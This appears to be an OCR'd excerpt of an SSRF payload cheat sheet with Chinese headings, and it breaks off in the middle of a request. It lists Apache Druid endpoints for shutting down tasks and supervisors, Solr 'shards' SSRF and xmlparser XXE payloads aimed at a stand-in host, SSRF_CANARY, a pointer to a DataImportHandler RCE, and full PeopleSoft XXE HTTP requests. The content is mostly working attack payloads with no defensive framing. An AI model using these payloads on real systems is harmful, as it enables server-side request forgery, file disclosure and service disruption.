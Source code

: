 	/druid/indexer/v1/task/{taskId}/shutdown
	/druid/indexer/v1/datasources/{dataSource}/shutdownAllTasks
	关闭Apache Druid Overlords的supervisors 
	/druid/indexer/v1/supervisor/terminateAll
	/druid/indexer/v1/supervisor/{supervisorId}/shutdown
  ###### Apache Solr
  	默认绑定端口：8983
	/search?q=Apple&shards=http://SSRF_CANARY/solr/collection/config%23&stream.body={"set-property":{"xxx":"yyy"}}
	/solr/db/select?q=orange&shards=http://SSRF_CANARY/solr/atom&qt=/select?fl=id,name:author&wt=json
	/xxx?q=aaa%26shards=http://SSRF_CANARY/solr 
	/xxx?q=aaa&shards=http://SSRF_CANARY/solr
	Solr XXE (2017)
	/solr/gettingstarted/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://SSRF_CANARY/xxx"'><a></a>'
	/xxx?q={!type=xmlparser v="<!DOCTYPE a SYSTEM 'http://SSRF_CANARY/solr'><a></a>"}
	通过 dataImportHandler 进行 RCE
	https://github.com/veracode-research/solr-injection#3-cve-2019-0193-remote-code-execution-via-dataimporthandler
  ###### PeopleSoft
  	https://www.ambionics.io/blog/oracle-peoplesoft-xxe-to-rce
	XXE #1
	POST /PSIGW/HttpListeningConnector HTTP/1.1
	Host: website.com
	Content-Type: application/xml
	...

	<?xml version="1.0"?>
	<!DOCTYPE IBRequest [
	<!ENTITY x SYSTEM "http://SSRF_CANARY">
	]>
	<IBRequest>
	   <ExternalOperationName>&x;</ExternalOperationName>
	   <OperationType/>
	   <From><RequestingNode/>
	      <Password/>
	      <OrigUser/>
	      <OrigNode/>
	      <OrigProcess/>
	      <OrigTimeStamp/>
	   </From>
	   <To>
	      <FinalDestination/>
	      <DestinationNode/>
	      <SubChannel/>
	   </To>
	   <ContentSections>
	      <ContentSection>
	         <NonRepudiation/>
	         <MessageVersion/>
	         <Data><![CDATA[<?xml version="1.0"?>your_message_content]]>
	         </Data>
	      </ContentSection>
	   </ContentSections>
	</IBRequest>
	XXE #2
	POST /PSIGW/PeopleSoftServiceListeningConnector HTTP/1.1
	Host: website.com
	Content-Type: application/xml
	...
